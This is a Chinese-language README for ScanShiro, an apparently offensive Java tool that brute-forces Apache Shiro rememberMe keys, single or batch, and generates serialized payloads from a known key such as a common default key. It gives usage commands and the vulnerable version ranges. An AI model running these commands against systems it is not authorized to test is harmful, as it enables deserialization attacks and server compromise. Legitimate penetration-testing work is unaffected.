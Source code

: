 # ScanShiro

>把去年写的ShiroScan 给重构了一下

## 学习

[原理](http://www.lmxspace.com/2020/08/24/%E4%B8%80%E7%A7%8D%E5%8F%A6%E7%B1%BB%E7%9A%84shiro%E6%A3%80%E6%B5%8B%E6%96%B9%E5%BC%8F/)

```java
<1.2.4   shiro550
<1.4.2   shiro721 https://cloud.tencent.com/developer/article/1944738 需要成功登录(目前还没有添加
>1.4.2   换加密方法 aes cmg
```

## 使用

```java
暴力破解key
java -jar ScanShiro.jar -u http://0.0.0.0 -k key.txt
        
批量暴力破解key
java -jar ScanShiro.jar -f url.txt -k key.txt
        
根据正确的key生成payload 适合在有key无gadgets的情况下
java -jar ScanShiro.jar -p payload.ser -c kPH+bIxk5D2deZiIxcaaaA==

-n 参数是值修改shiro中cookie的名字少部分环境存在,默认是rememberMe
        
-proxy 参数是代理 目前只支持socks5代理并且没有用户名密码
```

**说明:默认是先跑常规的模式如果没有跑出key就自动跑AES/GCM,并且生成payload的时候生成这两种的payload。怎么说呢工具肯定是存在误报的！！！**


## 问题

  1. 少部分环境存在shiro rememberMe参数为于post请求中 等待解决
  2. 经过大量测试,发现当跑批量的时候小几率出现连接异常的问题.所以为了保证工具准确性建议提前测试目标连接情况

